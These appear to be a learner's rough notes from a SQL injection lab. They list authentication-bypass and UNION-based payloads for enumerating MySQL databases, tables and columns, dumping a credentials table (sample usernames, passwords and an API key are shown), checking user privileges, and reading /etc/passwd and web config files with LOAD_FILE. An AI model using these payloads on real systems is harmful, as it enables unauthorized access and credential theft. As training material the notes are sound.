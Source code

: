 # SELECT * FROM logins WHERE username='admin' AND password = '47bce5c74f589f4867dbd57e9ca9f808';


admin') or '1'='1'-- -

SELECT * FROM logins WHERE (username='admin' AND id > 1)-- - AND password = '47bce5c74f589f4867dbd57e9ca9f808';

test' OR id = 5)-- -
toma' OR id = 
test' OR id = 4)-- -

dump name databases

UNION select 1,database(),2,3-- -

dump databases;
this command mysql dump all data;
		UNION select 1,2,SCHEMA_NAME,4 FROM INFORMATION_SCHEMA.SCHEMATA-- - 
		
example:
		UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
		DATABSES="information_schema,mysqL,performance_schema,ilfreight,dev"

dump tables

	' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='name_db'-- -

example

	' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema='dev'-- -
	TABLES="framework,pages,credentials,posts"

dump columns

	' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

example
	' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -

COLUMNS="username,password"

dump data

	UNION select 1, username, password, 4 from dev.credentials-- -
example :
	union select  1,username,password 4 from dev.credentials-- -
	union select  1,2,group_concat(username,":",password),4 from dev.credentials-- -

admin	password	
dev_admin	admin123	
api_key	MzkyMDM3ZGJiYTUxZjY5Mjc3DFNGFDmQ2YFGDF2VmYjZkZDU0NmHGFDQgIC0K	
software_engineer	3920aaaaadfsdf37dbba51f692776d6cefb6dd546d

if want understand a lot information linke website mysql
https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html

Reading Files:

Privileges:eading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

DB User:
	SELECT USER()
	SELECT CURRENT_USER()
	SELECT user from mysql.user

command : 
		UNION SELECT 1, user(), 3, 4-- -
		UNION SELECT 1, user, 3, 4 from mysql.user-- -

User Privileges
Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

SELECT super_priv FROM mysql.user

example:
	
		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

Notes:
 		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
		THis payload return in page ('Y') which means YES, indicating superuser privileges. We can also dump other privileges we have directly

SELECT sql_grants FROM information_schema.sql_show_grants

Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:

' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
return in page YES or Y 

all of the possible privileges given to our current user:


LOAD_FILE:
		SELECT LOAD_FILE('/etc/passwd');
	example:
	 	UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

	 	Another Example:
	 		We know that the current page is index.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/index.php
	 		UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
